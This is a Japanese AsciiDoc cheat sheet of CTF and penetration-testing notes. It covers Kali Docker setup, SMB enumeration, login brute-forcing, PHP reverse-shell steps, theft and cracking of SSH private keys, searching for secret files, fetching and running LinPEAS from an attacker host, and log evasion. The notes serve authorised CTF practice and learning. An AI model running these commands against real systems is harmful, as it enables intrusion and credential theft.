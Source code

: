 //////////////////////////////
// Settings
//////////////////////////////
:toc: macro
:toc-title: 目次
:toclevels: 5
:sectnums:
:sectanchors:
:sectlinks:
:idprefix:
:idseparator: -
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]

//////////////////////////////
// Contents
//////////////////////////////
= CTF

[CAUTION]
====
KtokKawuは、自衛や検証/CTFのため、ハッキング技術を学習しています。 +
自分の管理外の端末や機器(一般に公開されているWebサイトや各種サーバやWi-Fiスポット、他人の端末や機器等)に対し、 +
非合法な目的で本リポジトリで公開しているツール類やテクニックを使用しないこと。 +
必ず自己責任の元、ローカル環境やCTF等で攻撃が許可されたサイトに対してのみ使用すること。 +
KtokKawuは、本リポジトリを利用する他のユーザや企業、団体等が起こした全ての事象に関して一切責任を負いません。
====

toc::[]

== Kali Dockerコンテナの作成

=== 初回の手順

[PowerShell/CMD]
----
# Kali Linuxの公式イメージDL
docker pull kalilinux/kali-rolling
docker images
# Dockerfileを使用する場合
docker image build -t kalilinux/kali-rolling:latest C:\path\to\Dockerfile
# コンテナ(初回)起動
docker run -it --name <C-NAME> kalilinux/kali-rolling
docker exec -it <CID> /bin/bash
# リポジトリの登録
echo "deb http://http.kali.org/kali kali-rolling main contrib non-free" > /etc/apt/sources.list \
&& echo "deb-src http://http.kali.org/kali kali-rolling main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-last-snapshot main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-experimental main contrib non-free" >> /etc/apt/sources.list
# Kali Linuxのパッケージインストール
apt -y update && apt -y upgrade
apt install -y kali-linux-full
# 他ツール、ライブラリ
apt install -y bash-completion build-essential bzip2 colordiff colortail curl exiftool gdb git iputils-ping iputils-tracepath jq libjpeg-dev libssl-dev libxml2-dev libxslt1-dev ltrace mariadb-client net-tools nodejs npm postgresql python-dev rlwrap smbclient steghide strace telnet tor vim wget yarnpkg zip zlib1g-dev
# apt install -y bash-completion build-essential bzip2 colordiff colortail libjpeg-dev libssl-dev nikto nmblookup pip python-pybloomfiltermmap rpcclient
# Setup gdb-peda
git clone https://github.com/longld/peda.git ~/peda \
&& echo "source ~/peda/peda.py" >> ~/.gdbinit
# Setup nmap CVE script
# Option Usage: --script=vulscan/vulscan.nse www.example.com
git clone https://github.com/scipag/vulscan ~/scipag_vulscan \
&& ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
# Install and configure AutoRecon
mkdir /tools \
&& git clone --depth 1 https://github.com/Tib3rius/AutoRecon.git /tools/AutoRecon \
&& cd /tools/AutoRecon \
&& pip3 install -r requirements.txt \
&& ln -s /tools/AutoRecon/src/autorecon/autorecon.py /usr/local/bin/autorecon
# Get some scripts
git clone https://github.com/pentestmonkey/php-reverse-shell ~/prh \
&& git clone https://github.com/lucyoa/kernel-exploits ~/exploits/ksploits \
&& git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite ~/exploits/peass \
&& git clone https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack ~/exploits/unixploits \
&& git clone https://github.com/danielmiessler/SecLists /usr/share/seclists \
&& git clone https://github.com/andresriancho/w3af.git /opt/w3af \
/opt/w3af/w3af_console ; \
bash /tmp/w3af_dependency_install.sh ; \
echo 'export PATH=/opt/w3af:$PATH' >> /etc/profile
# Get Password list
mkdir ~/pwd-list \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/john.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/cain.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/conficker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/twitter-banned.txt.bz2 \
# Kaliイメージの「/usr/share/wordlists/rockyou.txt」の方が新しい
# && wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpbb.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/myspace.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hotmail.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/faithwriters.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/elitehacker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hak5.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/alypaa.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-pastebay.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porn-unknown.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/tuscl.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-phished.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/carders.cc.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/singles.org.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/english.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/german.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/us_cities.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porno.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/honeynet.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/file-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/fuzzing-strings.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpmyadmin-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-extensions.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-mutations.txt.bz2 \
&& bzip2 -d ~/pwd-list/*.bz2
# コンテナ保存
docker stop <CID>
docker rename <CID> <C-NAME>
docker commit <CID> <REPO-NAME>:<TAG-NAME>
# コンテナ起動(ホスト側へポートフォワード)
docker images
docker run --name <C-NAME> -itd -p <HOST-PORT>:<C-PORT> /bin/bash <REPO-NAME>:<TAG-NAME>
docker ps -a
# 不要なコンテナ、イメージ削除
docker rm -f <CID>
docker rmi -f <IID>
----

=== 2回目以降のコンテナ利用

[PowerShell/CMD]
----
# コンテナ接続
docker exec -it <C-NAME> /bin/bash
# コンテナ開始/停止/再起動
docker stop/start/restart <C-NAME>
# IP確認
docker inspect --format '{{ .NetworkSettings.IPAddress }}' <C-NAME>
----
  
=== 注意事項

* Windows Firewallの受信規則のうち、パブリックの「com.docker.backend」が有効だと、 +
リバースシェルを張る時などのインバウンド通信が失敗してしまう。Linuxで構築する場合も同様。

== ハッキング技術メモ

=== ポートとOSSバージョンの確認

.SMBの例
----
nmap -sC -p 139,445 -sV [TargetIP]
----

=== CVEのチェック

----
git clone https://github.com/scipag/vulscan scipag_vulscan
ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
nmap -sV -p [TargetPort] --script=vulscan/vulscan.nse www.example.com [TargetIP]
----

=== ログイン施行

★そのうち書く

=== Steganography

----
exiftool nothing.jpg
binwalk -e nothing.jpg
foremost nothing.jpg
steghide extract -sf nothing.jpg -p [password]
steghide --info nothing.jpg
----

=== SMB Attack

==== Tools

[cols="1,5"]
|===
|ツール名 |説明

|nmblookup
|NetBIOS名の検索に使用されるNetBIOS over TCP/IPクライアントを収集

|smbclient
|SMB共有ディレクトリにアクセスするftpのようなクライアント

|nmap
|ポートスキャナ with スクリプト

|rpcclient
|クライアント側のMS-RPC機能を実行するツール

|enum4linux
|さまざまなsmb関数を列挙

|wireshark
|「ntlmssp.ntlmv2_response」でフィルタリングしてNTLMv2のトラフィックからsmbの情報を取得可能
|===

==== チェックリスト

* ホスト名の確認
+
----
# -A オプション：look up by IP address
nmblookup -A [ip]
----
+
* 共有フォルダの一覧
+
----
# ホスト上の共有フォルダ一覧とアクセス権を表示
smbmap -H [ip/hostname] -R
# SMBからファイルを取得
smbmap -H [ip/hostname] -R --download '.\Anonymous\staff.txt'
# 資格情報を取得後に再実行し、新しいアクセス権を表示
smbmap -H [ip] -d [domain] -u [user] -p [password]
# nullログインをチェックするため、"exit"は現れる可能性のある全PW要求を処理する
# -L オプション：指定されたホストの共有のリストを取得します
echo exit | smbclient -L \\\\[ip]
# --script smb-enum-shares：特定のsmb列挙スクリプト
# -p 139,445：smbポートの指定
nmap --script smb-enum-shares -p 139,445 [ip]
----
+
* NULLセッションでの確認
+
----
# 資格情報無しで何ができるか確認
smbmap -H [ip/hostname]
# 本コマンドの後、RPCコマンドを入力してみる
# -U ""：NULLセッション
# -N オプション：PWD無し
rpcclient -U "" -N [ip]
# 共有フォルダへの接続試行、空PWDでも行ける可能性有り。
smbclient \\\\[ip]\\[share name]
----
+
* 脆弱性の確認
+
----
# --script smb-vuln*：全smb脆弱性スキャンスクリプトを実行
nmap --script smb-vuln* -p 139,445 [ip]
----
+
* SMB全体のスキャン
+
----
enum4linux -a [ip]
----
+
上記内容の確認で注目する内容は下記。
+
. nmblookup同様の出力
. nullセッションのチェック
. 共有フォルダのリスト
. ドメイン情報
. パスワードポリシー
. RIDサイクリング出力
* 手操作確認 +
smbのバージョンを取得するスクリプト
+
.smbver.sh
----
#!/bin/sh
# Author: rewardone
# Description:
#   Requires root or enough permissions to use tcpdump
#   Will listen for the first 7 packets of a null login and grab the SMB Version
# Notes:
#   Will sometimes not capture or will print multiple lines.
#   May need to run a second time for success.
# Usage:
#   smbver.sh [IP] (port) [Samba]
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'aUnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
----
+
上記スクリプトの結果が疑わしい時は、PCAPファイルから、smbバージョンを確認
+
----
# 例：Unix Samba 2.2.3a
check pcap
----

=== ディレクトリ検査

----
gobuster -e -u http://[TargetIP]/ -w /usr/share/dirbuster/wordlists/[DirList] -s 200,301,302,403,404 -e -x html,php,txt -l -o ./result_gobuster.txt
----

=== Bruteforce Attack

.Bruteforce tool list
[cols="2, 7a"]
|===
|ツール名 |サポートプロトコル

|Hydra
|TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc, RSH, +
RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ, +
SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP, Subversion/SVN, +
Firebird, LDAP2, Cisco AAA, Web form

|Medusa
|AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3, +
PostgreSQL, REXEC, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2, Subversion (SVN), +
Telnet, VMware Authentication Daemon (vmauthd), VNC, Generic Wrapper, Web Form

|Ncrack
|RDP, SSH, http(s), SMB, pop3(s), VNC, FTP, telnet
|===

==== hydra

* 効率的には、およそssh(2/s) < ftp(6/s) < http-basic(100/s)の速さ
* パスワードスプレー攻撃も可能 +
-l：uid固定、-L：uidリスト、-p：pwd固定、-P：pwdリスト

----
hydra -l [uname] \
      -P ~/pwd-list/[pwdtext] \
      [TargetIP] \
      [TargetProtocol] \
      -V \                                                          # PWDマイニング中にUID、PWDを表示
      -f \                                                          # 指定したPWDが見つかったら停止
# Web form
#     http-post-form \
#     "/path/to/login:uid=XXXXX&pwd=XXXXX&Login=Login:Login Failed" # "[Login Page]:[Request Body]:[Error Message]"
----

==== ncrack

* RDPサービスに関してはhydraより早いらしい

----
ncrack -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -T5 [TargetIP] \
       -p [TargetServicePort]
----

==== meduza

* 一番遅い

----
medusa -h [TargetIP] \
       -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -M [TragetService]
# Web Form
#      -M web-form \
#      -m FORM:"path/to/login" \
#      -m DENY-SIGNAL:"Example Access Denied" \
#      -m FORM-DATA:"post?uid=XXXXX&pwd=XXXXX&Login=Login"
----

=== Penetration

==== PHPリバースシェル

===== Scripts

https://github.com/pentestmonkey/php-reverse-shell

===== 手順

----
vim php-reverse-shell.php # change "$ip" value to [MyHostIP]
rlwrap nc -lvnp 1234
# Uploading PRS file & Web Access
----

==== RSAプライベートキーのクラック

----
scp [TargetUser]@[TargetIP]:/home/[TargetUser2]/.ssh/id_rsa /root/
/usr/share/john/ssh2john.py ./id_rsa > crack
john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt crack
john crack --show
chmod 600 id_rsa
----

=== 権限昇格

==== Scripts

. https://github.com/lucyoa/kernel-exploits
. https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
. https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
. https://github.com/rebootuser/LinEnum

==== 攻撃・防御のコツ

* ターゲット側でスクリプトを実行する際は、 +
使っているユーザ権限で自由にファイル授受できるディレクトリに移動するとよい。
+
.権限の緩いディレクトリの例
----
/var/tmp
/dev/shm
/var/lock
/run/lock
----
+
* 攻撃者が足跡をなるべく残さないために何をしている...？ + 
tor、串、over ssh、ログ削除、rootで行動、と他には何があるか？ +
->別サーバへログをリダイレクトしたほうがいい、権限認証もしっかりして侵入させない
+
.RHEL系
|===
|ディレクトリ/ファイル名|形式
|/var/run/utmp|バイナリ
|/var/log|テキスト/バイナリ
|===
+
.Debian系
|===
|ディレクトリ名|形式
|/var/log|テキスト/バイナリ
|===
+
※ logの設定は、/etc/rsyslog.confや/etc/rsyslog.d/*.confを確認
+
* 秘密情報の取得
+
----
find /  -iname "*pwd*" -or -iname "*pass*" -or -iname "*secret*" -or -name "id_rsa" 2>/dev/null
----

==== LinPEAS

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
python -m SimpleHTTPServer [MyHostPort]

# ターゲット側 
cd /var/tmp
wget http://[MyHostIP]:[MyHostPort]/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
----

==== LinEnum

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python -m SimpleHTTPServer [MyHostPort]

# ターゲット側
cd /var/tmp
which wget
wget [MyHostIP]:[MyHostPort]/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
----

== 情報元

----
# Docker
https://hub.docker.com/u/kalilinux
https://www.kali.org/docs/containers/official-kalilinux-docker-images/
http://www.tohoho-web.com/docker/index.html
https://qiita.com/wMETAw/items/34ba5c980e2a38e548db
http://docs.docker.jp/index.html
# General
https://kakyouim.hatenablog.com/entry/2020/04/17/182049
# SMB Attack
https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
# Forensic tools
https://qiita.com/knqyf263/items/6ebf06e27be7c48aab2e
https://github.com/Va5c0/Steghide-Brute-Force-Tool
# Directory Search
https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/
# Bruteforce Attack
https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/
https://ozuma.hatenablog.jp/entry/20130601/1370094859
# Penetration
https://github.com/pentestmonkey/php-reverse-shell
# Privilege escalation
https://github.com/lucyoa/kernel-exploits
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
https://null-byte.wonderhowto.com/how-to/use-linenum-identify-potential-privilege-escalation-vectors-0197225/
https://kakyouim.hatenablog.com/entry/2020/03/14/031746
# Password lists
https://wiki.skullsecurity.org/Passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords
# Asscidoctor
https://github.com/asciidoctor/asciidoctor/blob/master/README-jp.adoc
https://asciidoctor.org/docs/user-manual/
https://asciidoctor.org/docs/asciidoc-recommended-practices/
# Linux Log
https://qiita.com/Yorinton/items/897c1ccd6797a7df7805
----

